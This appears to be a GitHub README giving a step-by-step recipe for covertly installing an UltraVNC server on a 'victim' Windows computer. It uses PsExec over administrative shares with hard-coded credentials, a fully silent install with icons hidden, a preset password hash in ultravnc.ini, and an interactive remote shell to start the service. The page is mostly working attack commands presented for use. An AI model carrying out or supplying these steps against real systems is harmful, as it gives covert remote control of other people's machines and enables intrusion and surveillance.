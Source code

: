 # VNC (UltraVNC) Remote Desktop Connectin Server/Client

UltraVNC is an open-source remote-administration/remote-desktop-software utility. The client supports Microsoft Windows and Linux but the server only supports Windows. It uses the VNC protocol to control/access another computer remotely over a network connection.

![UltraVNC](assets/uvnc.jpg "Open source UltraVNC remote desktop client/server")

# Install VNC Server to Victim via Administrative Shares

You can remotely view or control the victim computer using the UltraVNC tool. For this, follow the steps below.

## Step 1: Download UltraVNC setup

Copy current version of ultravnc from the website to your computer as **"c:\\uvncsetup.exe"**.

## Step 2: Start installation 

To start silent installation on victim computer run **"uvncsetup.exe"** as remotely using **PsExec.exe** below. The command copy the specified executable (uvncsetup.exe) to the remote system for execution:

> psexec \\\victim -u admin -p admin0 -h -i -c C:\uvncsetup.exe /SP- /VERYSILENT /SUPPRESSMSGBOXES /NOCANCEL /NORESTART /CLOSEAPPLICATIONS /FORCECLOSEAPPLICATIONS /LOGCLOSEAPPLICATIONS /RESTARTAPPLICATIONS /NOICONS /FIREWALL /NOVIEW /COMPONENTS="ultravnc_server" /TASKS="installservice,stopservice" /DIR="%programfiles%\uvnc"

The inno setup parameters above allow the installation to complete silently. The installation files will be saved in the **"%program files%\uvnc"** directory on victim computer.

## Step 3: Define new password 

Create the **ultravnc.ini** file with the password defined in the **"%programfiles%\uvnc"** of the victim computer. 
UltraVNC password is "**admin0**" defined in **ultravnc.ini**. The ini file content is below:

` [ultravnc]`

` passwd=56B6ACA18D1BA76008`

` passwd2=56B6ACA18D1BA76008`

Copy the file to **"%programfiles%\uvnc"** folder on victim computer.

## Step 4: Restart the service

Start the service for the password to take effect. To restart the service open an interactive remote shell to victim computer below:

> psexec \\victim -u admin -p admin0 -h -i cmd.exe

And run below command over remote shell:

> net start uvnc_service

## Step 5: Restart the service

Run UltraVNC viewer and connect victim computer.

![UltraVNC Viewer](assets/uvnc_viewer.png "UltraVNC Viewer")
